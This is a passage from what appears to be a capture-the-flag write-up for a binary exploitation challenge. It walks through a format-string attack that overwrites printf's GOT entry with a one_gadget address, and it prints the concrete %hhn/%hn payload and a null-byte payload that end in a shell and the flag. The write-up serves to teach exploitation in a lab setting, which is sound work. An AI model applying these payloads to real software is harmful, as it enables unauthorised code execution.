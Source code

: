 We have those address here:

```
printf@got:          0x600ba8
printf@got value:    0x7ffff7a48f00
one_gadget:          0x7ffff7a333c2
```

So we will write `0x00` to `0xc2` by using `%hhn` and `0xa48f` to `0xa333` by using `%hn`. Remember to use `%c` for previous address as 1 byte. We will place printf@got as below:

`<printf@got> + <Some 8 byte> + <printf@got + 1>`

because we need to add `%<padding>c` to `<printf@got +1>`

And remember to make payload long enough to jump to overwritten stack_check_fail.

Payload2: ```%c%c%c%c%c%c%c%c%c%185c%hhn%41585c%hnPPP\xa8\x0b`\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa9\x0b`\x00\x00\x00\x00\x00```

Before printf:

![printf_got](https://raw.githubusercontent.com/nhtri2003gmail/writeup-pwn.tn-f_one/master/images/printf_got.png)

After overwrite printf@got:

![after_printf_got](https://raw.githubusercontent.com/nhtri2003gmail/writeup-pwn.tn-f_one/master/images/after_printf_got.png)

- Step 3: input null bytes payload

Just simply input null bytes to make sure rsp+0x40 is 8-byte null:

Payload3: `"\x00"*0x50`

Before input payload3 after step 2:

![before_fgets](https://raw.githubusercontent.com/nhtri2003gmail/writeup-pwn.tn-f_one/master/images/before_fgets.png)

After input payload3:

![after_fgets](https://raw.githubusercontent.com/nhtri2003gmail/writeup-pwn.tn-f_one/master/images/after_fgets.png)

When execute printf, we create a shell!

![printf_spawn_shell](https://raw.githubusercontent.com/nhtri2003gmail/writeup-pwn.tn-f_one/master/images/printf_spawn_shell.png)

# 4. Get flag

This is my script for dynamic address: 

- [solve_1.py](solve_1.py)

- [solve_2.py](solve_2.py)

![flag_solve_1.png](https://raw.githubusercontent.com/nhtri2003gmail/writeup-pwn.tn-f_one/master/images/flag_solve_1.png)

![flag_solve_2.png](https://raw.githubusercontent.com/nhtri2003gmail/writeup-pwn.tn-f_one/master/images/flag_solve_2.png)